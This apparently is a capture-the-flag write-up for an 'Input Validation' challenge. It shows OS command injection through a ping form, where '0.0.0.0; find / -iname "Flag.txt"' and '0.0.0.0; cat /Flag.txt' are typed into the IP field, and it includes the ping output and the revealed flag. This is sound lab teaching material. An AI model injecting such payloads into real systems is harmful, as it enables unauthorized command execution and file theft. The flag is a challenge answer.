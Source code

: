 # Input Validation
 
This challenge lets us insert an Ip address to check after i inserted IP (0.0.0.0) The program outputs results similar to the results you'd get from ping command.
This looks like the command is structed like so:

```bash
IP Address to Ping: X
ping X
```

Now we can inject commands of our own using ";"

```bash
IP Address to Ping: 0.0.0.0; find / -iname "Flag.txt"
```

This will ping the localhost then find our flkag on the machine

```bash
Command that will run:
ping 0.0.0.0; find / -iname "Flag.txt"

...Result:
...PING 0.0.0.0 (127.0.0.1) 56(84) bytes of data. 
...64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.019 ms 
...64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.037 ms 
...64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.044 ms 
...64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.035 ms 
...--- 0.0.0.0 ping statistics --- 
...4 packets transmitted, 4 received, 0% packet loss, time 3050ms 
...rtt min/avg/max/mdev = 0.019/0.033/0.044/0.011 ms 
.../Flag.txt 
```

We can see that the flag is at /Flag.txt
Lets cat it

```bash
IP Address to Ping: 0.0.0.0; cat /Flag.txt
```

Then we get the flag

```bash
PING 0.0.0.0 (127.0.0.1) 56(84) bytes of data. 
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.023 ms 
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.046 ms 
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.047 ms 
64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.039 ms 
--- 0.0.0.0 ping statistics --- 
4 packets transmitted, 4 received, 0% packet loss, time 3066ms 
rtt min/avg/max/mdev = 0.023/0.038/0.047/0.012 ms 
Flag: pluripresence 
```

